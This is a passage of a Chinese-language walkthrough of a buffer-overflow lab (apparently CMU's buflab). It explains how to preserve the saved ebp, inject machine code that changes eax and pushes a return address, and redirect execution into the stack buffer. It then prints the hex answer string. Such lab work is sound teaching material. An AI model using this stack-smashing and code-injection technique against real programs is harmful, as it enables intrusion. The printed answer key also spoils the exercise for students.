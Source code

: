 ![](2019-05-06-22-49-05.png)

得到 ebp 的值是 `0x55683140`。所以需要注入的时候在40 - 44 字节注入保存好的 ebp 值，可以防止 ebp 的值被破坏。

总的逻辑就是先注入一段可以修改 eax 信息，并将 test 调用完 getbuf 之后的下一句代码 push 进栈帧的机器代码，接着在后面补充原先的寄存器状态，最后在将返回地址设置为缓冲区的开头部分，执行已经注入的代码。

结合以上信息构造答案：

```
b8 70 5a 2d 36 68 be 8d  
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
40 31 68 55 e8 30 68 55 0a
```
<img src='2019-05-06-23-08-20.png' width = 500px />

## Level 4: Nitroglycerin
